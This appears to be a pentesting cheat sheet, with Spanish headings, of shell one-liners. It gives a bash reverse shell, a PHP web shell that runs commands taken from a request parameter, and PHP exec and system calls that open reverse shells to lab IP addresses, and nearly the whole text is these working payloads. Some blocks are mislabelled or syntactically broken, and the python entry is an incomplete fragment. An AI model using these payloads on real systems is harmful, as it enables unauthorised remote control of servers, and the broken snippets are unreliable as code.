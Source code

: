 ### Oneliner Bash
```css
bash -c "bash -i >& /dev/tcp/10.8.203.6/9001 0>&1"
```


### Oneliner cmd desde url
```css
<?php 
        echo "<pre>" . shell_exec($_REQUEST['cmd']>
?>
```

### Oneliner php
```python
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.203.6/7890 0>&1'"):
```

### Oneliner php
```python
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.85/443 0>&1'")
?>
```

### Oneliner python
```python
echo "import os; os.system"
```